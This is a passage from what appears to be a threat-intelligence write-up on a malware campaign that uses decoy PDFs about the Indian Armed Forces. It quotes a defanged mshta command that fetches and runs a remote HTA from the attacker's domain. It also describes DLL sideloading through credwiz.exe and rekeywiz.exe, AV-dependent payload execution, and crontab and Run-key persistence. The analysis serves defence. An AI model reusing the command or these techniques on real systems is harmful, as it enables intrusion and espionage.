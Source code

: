 


hxxps://sunfireglobal[.]in/public/core/homo/Homosexuality%20-%20Indian%20Armed%20Forces.zip



This contains a malicious shortcut file in a double extension format named “Homosexuality – Indian Armed Forces ․pdf.lnk” that triggers a remote HTA file as:




C:\Windows\System32\mshta.exe “hxxps://sunfireglobal[.]in/public/assests/files/db/acr/” && tar.exe



It contains two embedded files that are base64 encoded; one is the decoy PDF, and the other is a DLL. Only minor changes were observed in the HTA, and functionality remains the same – to check the .NET version, fetch the AV installed, decode, and run the DLL in-memory.
After the decoy file is opened by the DLL (preBotHta), it beacons to the same domain and downloads an HTA and the final DLL contents to their target paths. The downloaded HTA is saved as “seqrite.jpg” in the TEMP folder, later moved to the target folder, and executed. Depending on the AV present – SEQRITE, Quick Heal, Kaspersky, Avast, Avira, Bitdefender, and Windows Defender; it executes the final DLL payload.

Fig. 3 – DLL preBotHta run in-memory
Legitimate Windows apps like Credential wizard (credwiz.exe) or EFS REKEY wizard (rekeywiz.exe) are copied beside the target to sideload the DLL. Persistence is maintained via Startup (or) Run registry key to load the final RAT payload on system reboot. (Detailed analysis of Action RAT and all other payloads can be found in our previous whitepaper)
Another archive file with the same name, “Homosexuality – Indian Armed Forces.zip,” is seen that contains an ELF file. It is spread using a domain named “occoman[.]com,” resolving to the same IP address for the sunfireglobal[.].in, showing the sharing of IP between compromised domains.

Fig. 4 – Content of both the archives
Different file names for this Golang-based Linux malware that is masqueraded as a PDF were found as:



Homosexuality – Indian Armed Forces ․pdf
2023-10-24


Unit Training Program ․pdf
2023-09-20


Social Media Usage ․pptx
2023-08-30



Utilizing the GoReSym plugin with IDA, we can extract function metadata as the binary is stripped (See our in-depth analysis of Go-based Warp malware for plugin details).
The process flow is similar to the first stage seen in the case of the Poseidon agent (observed by Uptycs and Zscaler) having the exact target location, though this stage is not compiled using PyInstaller:

Create a crontab to maintain persistence through system reboot under the current username.
Download the decoy to the target directory “/.local/share” and open it.
Download the Ares agent as “/.local/share/updates” and execute it.
